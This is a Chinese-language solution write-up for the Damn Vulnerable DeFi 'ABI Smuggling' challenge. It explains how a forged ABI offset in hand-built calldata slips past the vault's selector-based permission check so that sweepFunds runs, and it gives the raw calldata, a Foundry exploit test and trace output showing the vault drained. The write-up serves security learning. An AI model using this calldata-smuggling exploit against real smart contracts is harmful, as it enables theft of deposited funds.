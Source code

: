 ## 题目 [ABI Smuggling](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/abi-smuggling)

有一个拥有 100 万 DVT 代币存款的许可金库。该金库允许定期提取资金，并在紧急情况下提取所有资金。  

该合约内嵌了一个通用授权机制，只允许已知账户执行特定操作。  

开发团队收到了一个负责任的披露，指出所有资金可能会被盗。  

请从金库中拯救所有资金，并将其转移到指定的恢复账户。  

## 题解
根据测试文件，可以看出我们作为玩家是可以调用 `withdraw` 函数，部署者才能调用 `sweepFunds`，这些都通过 `setPermissions` 进行了初始化。  

但是在 `execute` 函数中，检查能否调用的方法为，`getActionId(selector, msg.sender, target)`，而其中 `selector` 字段是直接通过 calldata 的 `4 + 32 * 3` 开始的位置读的。而 Solidity 对于可变长度的数据，ABI 采用了指针和数据分离的方式进行编码，我们可以手动设置一个偏移量。
``` solidity
    function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
        // Read the 4-bytes selector at the beginning of `actionData`
        bytes4 selector;
        uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }

        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }

        _beforeFunctionCall(target, actionData);

        return target.functionCall(actionData);
    }
```
于是我们可以构造以下的 `calldata`：
```
0x1cff79cd                                                        // execute
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264  // SelfAuthorizedVault
0000000000000000000000000000000000000000000000000000000000000080  // 偏移量 (0x80)，即 actionData 从 00..44 开始。
0000000000000000000000000000000000000000000000000000000000000000  // 仅占位用
d9caed1200000000000000000000000000000000000000000000000000000000  // withdraw
0000000000000000000000000000000000000000000000000000000000000044  // 68 bytes
85fb709d                                                          // sweepFunds
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea  // recovery
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b  // DamnValuableToken
```
之后不仅可以通过 `permissions[getActionId(selector, msg.sender, target)]` 的检查, 并且 `actionData` 是 `85fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b`，从而执行紧急提款操作。

POC：  
``` solidity
    function test_abiSmuggling() public checkSolvedByPlayer {
        bytes4 executeSelector = vault.execute.selector;
        bytes memory target = abi.encodePacked(bytes12(0), address(vault));
        bytes memory dataOffset = abi.encodePacked(uint256(0x80));
        bytes memory emptyData = abi.encodePacked(uint256(0));
        bytes memory withdrawSelectorPadded = abi.encodePacked(bytes4(0xd9caed12), bytes28(0));
        bytes memory sweepFundsCalldata = abi.encodeWithSelector(vault.sweepFunds.selector, recovery, token);
        uint256 actionDataLengthValue = sweepFundsCalldata.length;
        bytes memory actionDataLength = abi.encodePacked(uint256(actionDataLengthValue));
        bytes memory calldataPayload = abi.encodePacked(
            executeSelector,
            target,
            dataOffset,
            emptyData,
            withdrawSelectorPadded,
            actionDataLength,
            sweepFundsCalldata
        );

        address(vault).call(calldataPayload);
    }
```
运行测试：
```
forge test --mp test/abi-smuggling/ABISmuggling.t.sol -vvvv
```
测试结果：
```
[PASS] test_abiSmuggling() (gas: 57332)
Traces:
  [64932] ABISmugglingChallenge::test_abiSmuggling()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return] 
    ├─ [43547] SelfAuthorizedVault::execute(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 0x85fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b)
    │   ├─ [33748] SelfAuthorizedVault::sweepFunds(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b])
    │   │   ├─ [2519] DamnValuableToken::balanceOf(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   │   │   └─ ← [Return] 1000000000000000000000000 [1e24]
    │   │   ├─ [27674] DamnValuableToken::transfer(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 1000000000000000000000000 [1e24])
    │   │   │   ├─ emit Transfer(from: SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1000000000000000000000000 [1e24])
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Stop] 
    │   └─ ← [Return] 0x
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [519] DamnValuableToken::balanceOf(SelfAuthorizedVault: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Vault still has tokens") [staticcall]
    │   └─ ← [Return] 
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 
```


